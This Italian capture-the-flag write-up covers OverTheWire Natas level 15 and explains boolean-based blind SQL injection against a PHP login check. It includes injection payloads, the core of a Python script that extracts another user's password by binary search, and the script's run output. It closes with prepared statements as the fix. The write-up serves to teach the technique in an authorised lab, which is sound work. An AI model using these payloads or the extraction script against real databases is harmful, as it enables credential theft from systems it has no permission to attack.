



<!-- portfolio-desc: Blind SQL injection booleana per estrarre byte a byte la password di un altro utente. -->

# Natas Level 15 → 16

> **Script di risoluzione:** [`natas15_blind_sqli.py`](https://github.com/gion-week/Natas-OverTheWire/blob/main/scripts/natas15_blind_sqli.py) — automatizza la blind SQL injection (richiede `--password`).

## Obiettivo

La pagina espone un form che verifica se un username esiste nel database, mostrando solo "This user exists." o "This user doesn't exist." — nessun dato viene mai restituito direttamente. L'obiettivo è sfruttare questa unica informazione booleana per estrarre, un carattere alla volta, la password dell'utente `natas16`.

---

## Informazioni di accesso

| Campo | Valore |
|-------|--------|
| URL | `http://natas15.natas.labs.overthewire.org` |
| Username | `natas15` |
| Password | *(password trovata al livello 14)* |

---

## Strumenti / concetti utili

- **Link "View sourcecode"** — espone il codice PHP della pagina, incluso lo schema della tabella `users`
- **Blind SQL injection (boolean-based)** — variante di SQL injection in cui l'applicazione non restituisce mai dati o errori dettagliati, ma solo un segnale binario (vero/falso) osservabile dal comportamento della risposta
- `LENGTH()`, `SUBSTRING()`, `ASCII()` (SQL) — funzioni usate per isolare e confrontare singoli caratteri di un valore in una condizione booleana
- **Ricerca binaria** — strategia di ricerca che dimezza lo spazio di valori possibili a ogni tentativo, invece di provarli uno per uno
- Python (`requests`, `HTTPBasicAuth`) — libreria per automatizzare centinaia di richieste HTTP in sequenza

---

## Soluzione

### Step 1 – Lettura del sourcecode: nessun dato restituito

Il sourcecode di questo livello mostra anche lo schema della tabella coinvolta:

```php
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
        if(mysqli_num_rows($res) > 0) {
            echo "This user exists.<br>";
        } else {
            echo "This user doesn't exist.<br>";
        }
    } else {
        echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>
```

La costruzione della query ripete esattamente il problema del livello 14: `$_REQUEST["username"]` viene concatenato senza escaping dentro le virgolette della query. La differenza sostanziale è nell'output: qui non c'è alcuna riga di dati stampata, nessuna password rivelata su successo — solo una delle tre frasi fisse (`This user exists.`, `This user doesn't exist.`, `Error in query.`) a seconda che la query abbia restituito righe, nessuna riga, o sia fallita. Questo è esattamente lo scenario che definisce una **blind SQL injection**: la vulnerabilità è identica a prima, ma il canale con cui osservare il risultato si riduce a un singolo bit di informazione per richiesta.



### Step 2 – Verifica manuale della vulnerabilità

Si preparano alcuni payload di test, costruiti sullo stesso principio del livello 14 — chiudere la stringa con `"`, aggiungere una condizione con `AND`, e commentare il resto della query con `-- `:

```
natas16
natas16"AND LENGTH(password)=32 --
natas16"AND SUBSTRING(password,1,1)="x" --
```

Il primo payload è un controllo di base: conferma che l'utente `natas16` esiste nel database, senza ancora iniettare nulla. Il secondo introduce la prima vera condizione booleana iniettata: sostituendo il valore nel template della query si ottiene

```sql
SELECT * from users where username="natas16" AND LENGTH(password)=32
```

(il `-- ` commenta il carattere `"` finale che il PHP aggiunge automaticamente). Se questa condizione è vera, la riga di `natas16` viene restituita e la pagina mostra "This user exists." — che è esattamente il risultato osservato, confermando che la password di `natas16` è lunga **32 caratteri**.

Il terzo payload applica lo stesso principio a un singolo carattere tramite `SUBSTRING(password,1,1)="x"`: verifica se il primo carattere della password è `x`. Questo è il mattone elementare della tecnica — ripetuto per ogni posizione e ogni carattere candidato, permette in teoria di ricostruire l'intera password un carattere alla volta, usando solo risposte booleane.



### Step 3 – Perché serve uno script, e come è strutturato

Verificare un carattere alla volta come nel test manuale è corretto ma impraticabile a mano: con 32 posizioni e fino a circa 94 caratteri ASCII stampabili candidati per posizione, un approccio che testa i caratteri uno per uno nel caso peggiore richiederebbe fino a `32 × 94 ≈ 3000` richieste. Anche automatizzato, un ciclo del genere sarebbe lento e inefficiente. La soluzione più efficiente è la **ricerca binaria**: invece di chiedere "è uguale a X?", si chiede "è maggiore di un valore intermedio?" — ogni risposta dimezza lo spazio dei valori possibili. Applicata al valore ASCII di un carattere (intervallo 32–126), la ricerca binaria richiede circa `log2(94) ≈ 7` richieste per posizione invece di fino a 94, portando il totale da circa 3000 a poche centinaia di richieste.

Questo ragionamento è implementato nello script [`natas15_blind_sqli.py`](./natas15_blind_sqli.py), scritto con l'assistenza di **Claude Code** (Opus 4.8). La struttura dello script rispecchia esattamente il ragionamento appena descritto:

```python
class Oracle:
    def ask(self, condition):
        payload = f'{TARGET_USER}" AND {condition} -- '
        resp = self.session.post(self.url, data={"username": payload}, timeout=TIMEOUT)
        if ERROR_MARKER in resp.text:
            raise RuntimeError(f"Query malformata per la condizione: {condition!r}")
        return TRUE_MARKER in resp.text
```

La classe `Oracle` incapsula esattamente l'iniezione manuale testata al passaggio precedente: costruisce il payload con lo stesso schema `natas16" AND <condizione> -- `, invia la richiesta e traduce la risposta HTML in un singolo `True`/`False`. Il controllo su `ERROR_MARKER` evita che una condizione SQL malformata venga interpretata silenziosamente come "falso", corrompendo la ricerca.

```python
def binary_search(oracle, expr, low, high):
    while low < high:
        mid = (low + high) // 2
        if oracle.ask(f"{expr} > {mid}"):
            low = mid + 1
        else:
            high = mid
    return low
```

`binary_search` è la funzione generica che implementa il dimezzamento dello spazio di ricerca discusso sopra, riutilizzata sia per determinare `LENGTH(password)` (intervallo 0–64, coerente con la colonna `varchar(64)` vista nello schema) sia, carattere per carattere, per `ASCII(SUBSTRING(password,pos,1))` (intervallo 32–126).

Un dettaglio tecnico rilevante, documentato direttamente nello script: la ricerca sul singolo carattere usa `ASCII(SUBSTRING(...))` confrontato con `>`, non `SUBSTRING(...) = "carattere"`. Il motivo è che il confronto tra stringhe in MySQL, con la collation di default, è **case-insensitive**: `"a" = "A"` risulterebbe vero, rendendo impossibile distinguere maiuscole da minuscole. Confrontare il valore numerico ASCII del carattere, invece, è case-sensitive per costruzione, perché `A` e `a` hanno codici ASCII diversi (65 e 97).

Prima di avviare l'estrazione vera e propria, lo script esegue anche un **self-test** (`1=1` deve risultare vero, `1=2` deve risultare falso) per verificare che l'oracolo booleano si comporti come atteso, evitando di scoprire un problema di configurazione solo a metà estrazione.

### Step 4 – Esecuzione dello script e password trovata

Lo script viene eseguito da riga di comando:

```
C:\Users\alber\Downloads\OverTheWire\Script_Python>.\.venv\Scripts\python.exe natas15_blind_sqli.py
[*] Target: http://natas15.natas.labs.overthewire.org/  (utente: natas16)
[*] Validazione dell'oracolo booleano...
[+] Oracolo OK.
[*] Rilevamento della lunghezza della password...
[+] Lunghezza: 32
[*] Estrazione in corso...
[+] Password: [REDACTED]

[+] Password di natas16: [REDACTED]
[i] Richieste HTTP inviate: 223  |  Tempo: 10.9s
```

Il self-test conferma l'oracolo, la ricerca binaria sulla lunghezza restituisce **32** — esattamente il valore già confermato manualmente al passaggio 2 — e l'estrazione carattere per carattere produce la password completa in **223 richieste** e circa 11 secondi, contro le migliaia di richieste che un approccio non ottimizzato avrebbe richiesto.



---

## Note e osservazioni

**Perché questa è "blind" e la differenza rispetto al livello 14**

Nel livello 14 l'iniezione portava direttamente a un beneficio concreto e immediato: bypassare il login e leggere la password in chiaro nella risposta. Qui la query è vulnerabile allo stesso modo, ma l'applicazione non espone mai il contenuto del database: espone solo se una condizione è vera o falsa. Questo non rende la vulnerabilità meno grave — solo più lenta da sfruttare. Qualunque dato nel database può in linea di principio essere estratto in questo modo, un bit alla volta, purché si riesca a esprimerlo come condizione booleana su cui interrogare l'oracolo.

**Scrivere script di exploit con l'aiuto di un assistente AI**

Lo script di questo livello è stato scritto con Claude Code, e vale la pena spendere una nota su questo. Il vantaggio pratico è evidente: una volta chiara la tecnica (oracolo booleano, ricerca binaria, gestione di self-test ed errori), tradurla in uno script robusto — con parsing degli argomenti da riga di comando, gestione delle eccezioni di rete, output progressivo leggibile — richiederebbe altrimenti tempo non trascurabile speso su dettagli di implementazione piuttosto che sulla tecnica stessa. Un assistente come Claude Code comprime drasticamente questo tempo.

Il punto centrale, però, è che questo vantaggio esiste solo se si comprende cosa lo script fa e perché, non se ci si limita ad accettare il codice proposto ed eseguirlo. Senza aver capito perché si usa `ASCII()` invece di un confronto diretto tra stringhe, o perché la ricerca binaria è preferibile a un ciclo lineare, o a cosa serve il self-test, diventa impossibile: verificare che lo script sia effettivamente corretto, correggerlo se l'oracolo si comporta in modo imprevisto, adattarlo a una variante della stessa vulnerabilità in un contesto diverso. In questo senso un assistente AI accelera la *produzione* di uno strumento, ma non sostituisce la comprensione della tecnica che quello strumento implementa — comprensione che resta il prerequisito per usarlo in modo consapevole, non un passaggio opzionale.

**Prevenzione corretta**

Le stesse contromisure viste nel livello 14 si applicano qui: query parametrizzate (prepared statements) che separano codice SQL e dati, così che nessun input utente possa mai alterare la struttura della query, indipendentemente dal canale — diretto o booleano — con cui un attaccante potrebbe altrimenti osservarne l'effetto.
